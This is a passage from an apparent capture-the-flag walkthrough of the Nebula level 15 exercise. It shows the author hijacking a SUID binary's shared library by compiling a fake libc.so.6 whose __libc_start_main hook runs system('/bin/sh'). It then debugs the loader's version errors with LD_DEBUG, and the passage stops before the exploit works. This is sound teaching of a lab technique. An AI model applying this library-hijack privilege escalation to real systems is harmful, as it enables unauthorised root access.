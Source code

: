 The next step is to find out what functions for `libc.so.6` the `flag15` binary
uses so we can find an appropriate function to hook.

```shell
level15@nebula:~$ objdump -R /home/flag15/flag15

/home/flag15/flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
```

`__libc_start_main` seems like a good function to hook. The purpose of the
function is to initialize the process before calling `main()` and so will be
called before anything in the program runs. This reduces the likelihood of
something going wrong with our exploit.

We write a `fake.c` and attempt to compile and use it.

```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
}
```

```shell
level15@nebula:~$ gcc -shared -fPIC -o /var/tmp/flag15/libc.so.6 /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

To debug this error, we make a copy of the binary without the SUID bit set and
run it with `LD_DEBUG`.

```
level15@nebula:~$ cp /home/flag15/flag15 /home/level15/flag15
level15@nebula:~$ LD_DEBUG=all /home/level15/flag15
... snip ...
      3207:     checking for version `GLIBC_2.0' in file /var/tmp/flag15/libc.so.6 [0] required by file /home/level15/flag15 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /home/level15/flag15) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/level15/flag15)
      3207:     checking for version `GLIBC_2.0' in file /var/tmp/flag15/libc.so.6 [0] required by file /var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /var/tmp/flag15/libc.so.6) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
      3207:     checking for version `GLIBC_2.1.3' in file /var/tmp/flag15/libc.so.6 [0] required by file /var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /var/tmp/flag15/libc.so.6) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md